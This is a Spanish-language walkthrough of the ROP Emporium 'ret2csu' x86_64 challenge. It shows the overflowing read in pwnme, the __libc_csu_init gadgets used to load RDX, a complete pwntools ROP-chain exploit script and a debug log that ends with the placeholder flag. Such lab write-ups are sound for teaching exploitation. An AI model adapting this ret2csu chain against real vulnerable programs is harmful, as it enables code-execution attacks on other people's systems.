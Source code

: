 # Ret2csu (x86\_64)

Este ejercicio es como el [callme](3.-callme-x86_64.md) pero sin tener que hacer saltos a 3 funciones. Simplemente hay que hacer un salto a la función `ret2win`. Vamos a intentarlo para ver cual es el muro que tenemos ahora:

```c
undefined8 main(void)
{
    pwnme();
    return 0;
}
```

```c
void pwnme(void)
{
    undefined array[32];

    setvbuf(stdout, (char *)0x0, 2, 0);
    puts("ret2csu by ROP Emporium");
    puts("x86_64\n");
    memset(array, 0, 0x20);
    puts(
        "Check out https://ropemporium.com/challenge/ret2csu.html for information on how to solve this challenge.\n"
    );
    printf("=> ");
    read(0, array, 0x200); // Buffer Overflow
    puts("Thank you!");
    return;
}

```

Como podemos ver la función `pwnme` tiene un buffer overflow con mucha capacidad, lo cual nos da la capacidad de hacer una rop chain larga. Vamos a observar ahora la función `ret2win`:

```c
void ret2win(long param_1, long param_2, long param_3)
{
. . .
    if (((param_1 != -0x2152411021524111) || (param_2 != -0x3501454135014542)) || (param_3 != -0x2ff20ff22ff20ff3)) {
        puts("Incorrect parameters");
        exit(1);
    }
}
. . .
```

Como en el [callme](3.-callme-x86_64.md), este ejercicio pide 3 argumentos para que nos imprima la flag (`RDI`, `RSI` y `RDX`):

Vamos a buscar gadgets para poner esos registros con los valores que necesitamos:

```c
0x004006a3 : pop rdi ; ret // RDI
0x004006a1 : pop rsi ; pop r15 ; ret // RSI
```

Hay un problema, no hay ningún `pop rdx`. Aquí está la nueva dificultad del ejercicio. Para solucionarlo tenemos que, tal como da a entender el nombre del ejercicio, usar la función `__libc_csu_init`, que se genera automáticamente al compilar un programa y siempre mete un par de gadgets bastante útiles: uno para hacer varios `pop` seguidos y otro que hace `mov rdx, r15; mov rsi, r14; mov edi, r13d; call [r12+rbx*8]`. Con esto podemos setear `rdx` aunque no haya un `pop rdx` normal, y así pasar todos los argumentos que necesitamos. Vamos a usar la siguiente examen como referencia:

!\[\[Pasted image 20250814024324.png]]

Como podemos ver podemos llamar primero al gadget 1 para setear varis registros que luego en el gadget 2 lo moverán a los registros que nos hacían falta. tenemos que tener en cuenta que en el gadget 2 hay un call así que tenemos que intentar que esto:

```c
400689:	41 ff 14 dc          	call   QWORD PTR [r12+rbx*8]
```

De como resultado una función que nos haga un return y que no nos altere ningún registro importante. Otra cosa a tener en cuenta es que en el gadget 1 hay que poner que el `rbx` sea el valor de `rbp - 1` ya que el gadget tiene estas lineas:

```c
  400691:	48 39 dd             	cmp    rbp,rbx
  400694:	75 ea                	jne    400680 <__libc_csu_init+0x40>
```

Entonces si no se cumple eso hará un salto a otra función y no queremos eso. Tenemos que tener en cuenta también que en la segunda pasada se volverán a hacer los pops así que tenemos que popear 7 veces algo, 6 veces por los `pop` y 1 vez por el `add`. Ahora que sabemos esto podemos preparar el exploit:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("./ret2csu")
libc = ELF("./libret2csu.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
b 400696
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("addr", 1337)

def main():
    io = conn()
    
    pop_rdi = 0x004006a3 # pop rdi ; ret
    mov_long = 0x400680
    pop_rbx_rbp_r12_r13_r14_r15 = 0x40069a
    pop_rsi_r15 = 0x004006a1 # pop rsi ; pop r15 ; ret
    
    parametros = [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d]
    
    # 400680:	4c 89 fa             	mov    rdx,r15
    # 400683:	4c 89 f6             	mov    rsi,r14
    # 400686:	44 89 ef             	mov    edi,r13d
    # 400689:	41 ff 14 dc          	call   QWORD PTR [r12+rbx*8]
    # 40068d:	48 83 c3 01          	add    rbx,0x1
    # 400691:	48 39 dd             	cmp    rbp,rbx
    # 400694:	75 ea                	jne    400680 <__libc_csu_init+0x40>
    # 400696:	48 83 c4 08          	add    rsp,0x8
    # 40069a:	5b                   	pop    rbx
    # 40069b:	5d                   	pop    rbp
    # 40069c:	41 5c                	pop    r12
    # 40069e:	41 5d                	pop    r13
    # 4006a0:	41 5e                	pop    r14
    # 4006a2:	41 5f                	pop    r15
    # 4006a4:	c3                   	ret
    
    # Contents of section .init_array:
    # 600df0 00064000 00000000

    offset = 40
    
    payload = flat({
        offset: [
            pop_rbx_rbp_r12_r13_r14_r15, 0, 1, 0x600df0, 0x0, parametros[1], parametros[2],
            mov_long, 0, 0, 0, 0, 0, 0, 0,
            pop_rdi, parametros[0],
            pop_rsi_r15, parametros[1], 0,
            exe.plt['ret2win'],
        ]
    })


    io.sendlineafter(b'>', payload)
    
    io.interactive()

if __name__ == "__main__":
    main()
```

```c
[+] Starting local process '/home/ub1cu0/Desktop/ropEmporium/ret2csu/ret2csu': pid 822203
[DEBUG] Received 0x8c bytes:
    b'ret2csu by ROP Emporium\n'
    b'x86_64\n'
    b'\n'
    b'Check out https://ropemporium.com/challenge/ret2csu.html for information on how to solve this challenge.\n'
    b'\n'
    b'> '
[DEBUG] Sent 0xd1 bytes:
    00000000  61 61 61 61  62 61 61 61  63 61 61 61  64 61 61 61  │aaaa│baaa│caaa│daaa│
    00000010  65 61 61 61  66 61 61 61  67 61 61 61  68 61 61 61  │eaaa│faaa│gaaa│haaa│
    00000020  69 61 61 61  6a 61 61 61  9a 06 40 00  00 00 00 00  │iaaa│jaaa│··@·│····│
    00000030  00 00 00 00  00 00 00 00  01 00 00 00  00 00 00 00  │····│····│····│····│
    00000040  f0 0d 60 00  00 00 00 00  00 00 00 00  00 00 00 00  │··`·│····│····│····│
    00000050  be ba fe ca  be ba fe ca  0d f0 0d d0  0d f0 0d d0  │····│····│····│····│
    00000060  80 06 40 00  00 00 00 00  00 00 00 00  00 00 00 00  │··@·│····│····│····│
    00000070  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
    *
    000000a0  a3 06 40 00  00 00 00 00  ef be ad de  ef be ad de  │··@·│····│····│····│
    000000b0  a1 06 40 00  00 00 00 00  be ba fe ca  be ba fe ca  │··@·│····│····│····│
    000000c0  00 00 00 00  00 00 00 00  10 05 40 00  00 00 00 00  │····│····│··@·│····│
    000000d0  0a                                                  │·│
    000000d1
[*] Switching to interactive mode
 [*] Process '/home/ub1cu0/Desktop/ropEmporium/ret2csu/ret2csu' stopped with exit code 0 (pid 822203)
[DEBUG] Received 0x2c bytes:
    b'Thank you!\n'
    b'ROPE{a_placeholder_32byte_flag!}\n'
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

Funciona! Gracias por leer!
